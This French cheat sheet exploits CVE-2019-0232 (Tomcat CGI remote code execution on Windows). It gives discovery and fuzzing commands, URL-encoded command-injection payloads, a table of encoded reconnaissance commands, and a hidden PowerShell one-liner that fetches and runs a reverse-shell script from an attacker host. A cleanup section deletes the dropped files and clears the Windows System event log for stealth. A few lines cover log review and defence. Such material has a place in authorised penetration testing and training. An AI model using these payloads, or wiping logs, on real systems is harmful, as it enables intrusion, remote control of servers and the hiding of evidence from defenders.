

## Exploitation de la CVE-2019-0232 (Tomcat CGI RCE)



Cette vulnérabilité permet une exécution de code à distance (**RCE**) sur les serveurs **Tomcat** configurés avec le servlet CGI activé sur **Windows**.

### Conditions de vulnérabilité

> [!danger] Environnement spécifique
> La vulnérabilité est spécifique aux environnements **Windows**.

*   Versions **Tomcat** : 7.0.0 à 7.0.93, 8.5.0 à 8.5.39, 9.0.0.M1 à 9.0.17
*   Servlet CGI activé dans `web.xml`
*   Paramètre `enableCmdLineArguments` défini à `true`

### Détection initiale

```bash
nmap -p- -sC -sV -Pn <IP>
```

### Fuzzing CGI

L'identification des points d'entrée s'effectue par le fuzzing de fichiers `.bat` ou `.cmd` dans le répertoire `/cgi/`.

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://<ip>:8080/cgi/FUZZ.bat
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://<ip>:8080/cgi/FUZZ.cmd
```

### Command Injection

> [!warning] Variable PATH
> La variable **PATH** est vide par défaut : l'utilisation du chemin absolu est obligatoire.

L'injection s'effectue via des paramètres de requête HTTP.

```http
http://<ip>:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

### Bypass des protections

> [!info] Filtrage Regex
> Le filtrage regex de **Tomcat** nécessite un encodage URL strict pour les caractères spéciaux.

| Caractère | Encodage |
| :--- | :--- |
| `:` | `%3A` |
| `\` | `%5C` |
| (espace) | `+` ou `%20` |

Exemple d'exécution avec encodage :

```http
http://<ip>:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

### Commandes utiles

| But | Commande encodée |
| :--- | :--- |
| Afficher l'utilisateur | `&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe` |
| Liste IP réseau | `&c%3A%5Cwindows%5Csystem32%5Cipconfig.exe` |
| Liste des utilisateurs | `&c%3A%5Cwindows%5Csystem32%5Cnet.exe+user` |
| Afficher connexions | `&c%3A%5Cwindows%5Csystem32%5Cnetstat.exe+-an` |
| Variables env | `&set` |

### Reverse Shell

> [!tip] Exécution de payload
> L'exécution de **Reverse Shell** nécessite une exécution via **PowerShell** ou **CMD** avec les droits du service **Tomcat**.

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri http://<LHOST>/shell.ps1 -OutFile C:\Temp\shell.ps1; Start-Process C:\Temp\shell.ps1"
```

### Vérification de l'intégrité du système après injection

Après l'exécution de charges utiles, il est impératif de vérifier si des processus persistants ont été créés ou si des fichiers temporaires ont été déposés.

```bash
# Lister les processus suspects lancés par le service Tomcat
tasklist /v /fi "username eq SYSTEM"

# Vérifier la présence de fichiers dans les répertoires temporaires
dir C:\Windows\Temp
dir C:\Users\Public
```

### Analyse des logs serveurs

L'analyse des logs permet de corréler les requêtes malveillantes avec les actions effectuées sur le système. Les logs **Tomcat** (`localhost_access_log`) enregistrent les paramètres passés aux scripts CGI.

```bash
# Rechercher les requêtes contenant des caractères suspects dans les logs
findstr /C:"%3A" C:\Program Files\Apache Software Foundation\Tomcat\logs\localhost_access_log.*.txt
```

### Nettoyage des traces

Pour maintenir la discrétion lors d'un engagement, il est nécessaire de supprimer les artefacts créés lors de l'exploitation, notamment les scripts de **Reverse Shell** et les fichiers temporaires.

```bash
# Suppression des fichiers déposés
del /f /q C:\Temp\shell.ps1

# Effacement des entrées de logs spécifiques si les droits le permettent
# Note : Cette action est intrusive et peut alerter les équipes de défense
powershell -Command "Clear-EventLog -LogName System"
```

### Défense & Post-Exploitation

*   Vérification des privilèges via `whoami /priv`
*   Analyse de la configuration **Active Directory** si le service tourne sous un compte de domaine
*   Énumération des services locaux pour une escalade de privilèges
*   Utilisation de **netexec** pour tester la validité des identifiants récupérés sur le réseau
*   Analyse des logs **Tomcat** pour identifier les tentatives d'exploitation passées